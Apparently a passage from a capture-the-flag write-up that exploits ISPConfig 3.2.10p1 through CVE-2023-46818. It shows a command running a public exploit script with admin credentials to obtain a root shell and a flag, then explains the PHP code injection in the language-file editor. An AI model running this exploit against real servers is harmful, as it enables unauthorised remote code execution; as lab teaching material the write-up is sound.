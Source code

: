 **ISPConfig Version: 3.2.10p1**. Let's try to find information about vulnerabilities. We see that it is [CVE-2023-46818](https://pentest-tools.com/vulnerabilities-exploits/ispconfig-php-code-injection_23066).
Let's try to find an [exploit](https://github.com/ajdumanhug/CVE-2023-46818) for it.
Exploiting this vulnerability:
```bash
python3 CVE-2023-46818.py http://127.0.0.1:18080 admin slowmotionapocalypse
```
Getting a `root` shell

![image](images/20250730171744.png)

```flag
38ad8f9a0ba34b7e332074b6b35b7235
```
<div style="page-break-after: always;"></div>

## How it works
The **ISPConfig** panel allows the administrator to edit `.lng` language files.
The `admin/language_edit.php` form sends `records[key]=value` pairs — this is where our "injected" text goes.

Critical section of code
```PHP
if(isset($_POST['records']) && is_array($_POST['records'])) {
$file_content = "<?php\n";
foreach($_POST['records'] as $key => $val) {
$val = stripslashes($val); // NO filter!
$escaped_val = var_export($val, true); // Generate PHP literal
$file_content .= '$wb['."'$key'".'] = '.$escaped_val.';'."\n";
}
$file_content .= "?>\n";
...
include ISPC_LIB_PATH."/lang/$lang_file"; // The file is immediately included
```
**What happens:**
1. The incoming value is saved in `$val` without any validation (except for the banal `stripslashes`).
2. `var_export()` turns it into PHP literal code **as is**. It is enough to close the line (`';`) and enter any PHP.
3. The generated `.lng` file is immediately `include`-ed - our code is executed in the context of the web server (**www-data**, and even **root** by cron).
